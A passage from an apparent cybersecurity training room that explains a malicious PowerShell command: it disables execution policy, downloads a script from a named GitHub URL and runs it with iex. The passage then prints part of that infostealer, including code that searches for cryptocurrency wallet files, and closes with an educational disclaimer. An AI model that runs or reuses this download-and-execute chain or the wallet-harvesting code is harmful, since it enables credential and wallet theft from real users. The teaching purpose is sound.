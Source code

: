What this PowerShell command does:

- The **-ep Bypass -nop** flags disable PowerShell's usual restrictions, allowing scripts to run without interference from security settings or user profiles.
- The **DownloadFile** method pulls a file (in this case, IS.ps1) from a remote server (https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1) and saves it in the **C:\\ProgramData\\** directory on the target machine.
- Once downloaded, the script is executed with PowerShell using the **iex** command, which triggers the downloaded **s.ps1** file.

If you visit the contents of the file to be downloaded using your browser **(https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1)**, you will see just how lucky we are that we are not currently using Windows.

```console
function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Call the function to print the ASCII art
Print-AsciiArt

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}

[Output truncated for brevity]
```
The script is designed to collect highly sensitive information from the victim's system, such as cryptocurrency wallets and saved browser credentials, and send it to an attacker's remote server.

**Disclaimer**: _**All content in this room, including CPP code, PowerShell scripts, and commands, is provided solely for educational purposes. Please do not execute these on a Windows host.**_
